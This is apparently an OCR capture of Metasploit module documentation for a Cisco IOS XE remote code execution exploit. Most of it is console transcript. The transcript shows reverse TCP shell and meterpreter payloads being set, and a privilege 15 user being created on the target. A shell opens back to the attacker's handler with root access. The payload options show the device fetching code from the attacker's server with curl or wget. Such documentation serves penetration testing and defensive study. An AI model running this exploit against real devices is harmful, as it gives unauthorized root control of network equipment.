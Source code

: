 ```
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

```
msf exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/linux/http/x64/shell/reverse_tcp
payload => cmd/linux/http/x64/shell/reverse_tcp
msf exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
[*] Created privilege 15 user 'VltpvRrx' with password 'KDJGXORf'
[*] Removing user 'VltpvRrx'
[*] Sending stage (38 bytes) to 192.168.86.113
[*] Command shell session 6 opened (192.168.86.122:4444 -> 192.168.86.113:56736) at 2025-03-03 20:32:52 +0000

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0
uname -a
Linux testc100v 4.19.106 #1 SMP Fri Oct 2 17:55:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.113 - Command shell session 6 closed.
msf exploit(linux/misc/cisco_ios_xe_rce) > 
```

### Linux Command (IOS XE 16.12.3)

```
msf exploit(linux/misc/cisco_ios_xe_rce) > set RHOSTS 192.168.86.114
RHOSTS => 192.168.86.114
msf exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/misc/cisco_ios_xe_rce) > show options 

Module options (exploit/linux/misc/cisco_ios_xe_rce):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   CISCO_CMD_TIMEOUT  30               yes       The maximum timeout (in seconds) to wait when trying to execute a command.
   CISCO_VRF_NAME     global           yes       The virtual routing and forwarding (vrf) name to use. Both 'fwd' or 'global' have been tested to work.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.114   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              443              yes       The target port (TCP)
   SSL                true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                               no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE    false            yes       Attempt to delete the binary after execution
   FETCH_FILELESS  false            yes       Attempt to run payload without touching disk, Linux ≥3.17 only
   FETCH_SRVHOST                    no        Local IP to use for serving payload
   FETCH_SRVPORT   8080             yes       Local port to use for serving payload
```